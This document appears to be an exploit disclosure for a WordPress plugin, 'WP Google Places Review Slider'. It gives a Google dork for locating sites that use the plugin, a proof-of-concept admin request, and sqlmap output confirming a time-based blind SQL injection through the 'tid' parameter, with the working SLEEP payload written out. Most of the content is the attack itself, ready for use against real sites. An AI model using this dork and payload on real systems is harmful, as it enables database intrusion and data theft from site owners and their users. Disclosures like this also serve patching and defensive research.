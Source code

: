 Google Dork
-----------

    inurl:"/wp-content/plugins/wp-google-places-review-slider/"

POC
---

     GET/wp-admin/admin.php?page=wp_google-templates_posts&tid=1&_wpnonce=***
     &taction=edit HTTP/1.1

SQLMAP
------

    sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
    ---
    Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=wp_google-templates_posts&tid=1 AND (SELECT 5357 FROM
    (SELECT(SLEEP(5)))kHQz)&_wpnonce=***&taction=edit